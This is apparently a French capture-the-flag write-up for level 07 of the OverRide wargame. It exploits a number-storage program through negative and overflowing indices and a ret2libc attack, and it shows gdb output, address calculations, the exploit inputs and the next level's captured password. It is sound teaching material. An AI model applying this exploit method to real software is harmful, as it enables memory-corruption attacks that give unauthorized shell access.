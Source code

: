 # Level 07

On remarque des commandes store, read et quit. Plusieurs essaies nous permettent de voir que l'on peut mettre des nombres négatif afin d'écrire à la fin du buffer et que certaines adresses appartiennent à wil. On pense directement à déterminer l'adresse de retour du main afin d'y mettre un shellcode ou de faire un ret2libc. Il se trouve que le programme supprime les variables d'environements. On décide d'utiliser la méthode du ret2libc car elle nous semble plus simple à mettre en oeuvre.

```bash
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil\'s crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 42
 Index: 42
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 42
 Index: 2
 Completed store command successfully
Input command: read   
 Index: 42
 Number at data[42] is 0
 Completed read command successfully
Input command: store
 Number: 42
 Index: -5
 Completed store command successfully
Input command: read
 Index: -5
 Number at data[4294967291] is 42
 Completed read command successfully

```

On identifie le début et la fin du buffer ainsi que sa taille.

```
...
0x08048791 <+110>:	lea    0x24(%esp),%ebx
...
Breakpoint 1, 0x08048882 in main ()       <-- adresse de l'apel de fgets dans le main
(gdb) info r
(gdb) x/x $esp+0x24
0xffffd544:	0x00000000                    <-- Début du buffer
(gdb) info r eax
eax            0xffffd6d8	-10536          <-- FIN buffer
>>> 0xffffd6d8 - 0xffffd544               <-- Fin du buffer - Début buffer
404                                       <-- La taille du buffer est de 100
```

On identifie l'adresse de eip, de system ainsi que de "/bin/sh".

```bash
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr

(gdb) find &system, +9999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.

(gdb) i f
Stack level 0, frame at 0xffffd710:
 eip = 0x8048882 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame\'s sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704,
  eip at 0xffffd70c
```

L'adresse 114 appartient à wil. On utilise un overflow pour acceder à cet endroit avec un moyen différent.

```python
>>> 0xf7e6aed0                <-- system
4159090384
>>> 0xf7f897ec                <-- "/bin/sh"
4160264172
>>> 0xffffd70c - 0xffffd544   <-- adresse de retour du main - Début du buffer
456
>>> 456 / 4
114
>>> (4294967296 / 4) + 114
1073741938                    <-- égal à 114 avec un décalage binaire dû à un overflow
```

On utilise un ret2lic pour nous permettre de lancer un bash afin d'avoir le flag. On se sert des commandes stores et quit.

```bash
----------------------------------------------------
  Welcome to wil\'s crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------
Input command: store      
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
